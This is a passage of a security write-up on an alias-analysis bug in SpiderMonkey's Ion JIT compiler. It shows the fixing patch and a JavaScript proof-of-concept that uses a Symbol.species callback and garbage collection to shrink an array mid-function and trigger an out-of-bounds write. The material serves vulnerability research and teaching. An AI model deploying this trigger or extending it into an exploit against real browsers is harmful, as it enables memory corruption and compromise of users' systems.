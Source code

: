 ```diff
     }
-    return AliasSet::None();
+    return AliasSet::Load(AliasSet::ObjectFields | AliasSet::FixedSlot |
+                          AliasSet::DynamicSlot);
   }
   bool possiblyCalls() const override { return true; }
   bool appendRoots(MRootList& roots) const override {
     return roots.append(name_);
   }
 };
 
 // Inline call to handle lhs[rhs]. The first input is a Value so that this
```

The instructions that don't define any refinements inherit the default behavior from `js::jit::MDefinition::getAliasSet` (both `jit::MInstruction` and `jit::MPhi` nodes inherit `jit::MDefinition`):

```c++
virtual AliasSet getAliasSet() const {
  // Instructions are effectful by default.
  return AliasSet::Store(AliasSet::Any);
}
```

Just one more thing before getting back into Ion; here is the PoC file I use if you would like to follow along at home:

```javascript
let Trigger = false;
let Arr = null;
let Spray = [];

function Target(Special, Idx, Value) {
    Arr[Idx] = 0x41414141;
    Special.slice();
    Arr[Idx] = Value;
}

class SoSpecial extends Array {
    static get [Symbol.species]() {
        return function() {
            if(!Trigger) {
                return;
            }

            Arr.length = 0;
            gc();
        };
    }
};

function main() {
    const Snowflake = new SoSpecial();
    Arr = new Array(0x7e);
    for(let Idx = 0; Idx < 0x400; Idx++) {
        Target(Snowflake, 0x30, Idx);
    }

    Trigger = true;
    Target(Snowflake, 0x20, 0xBBBBBBBB);
}

main();
```
